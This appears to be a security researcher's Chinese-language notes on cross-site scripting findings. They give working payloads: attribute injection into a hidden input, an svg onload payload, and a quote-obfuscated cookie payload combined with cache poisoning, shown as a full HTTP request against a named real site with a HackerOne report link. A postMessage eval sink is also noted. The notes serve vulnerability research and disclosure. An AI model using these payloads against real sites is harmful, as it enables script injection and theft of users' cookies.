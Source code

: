 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

3.二维码xss
二维码执行js

4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png]]
e.data有exec的话就用eval执行代码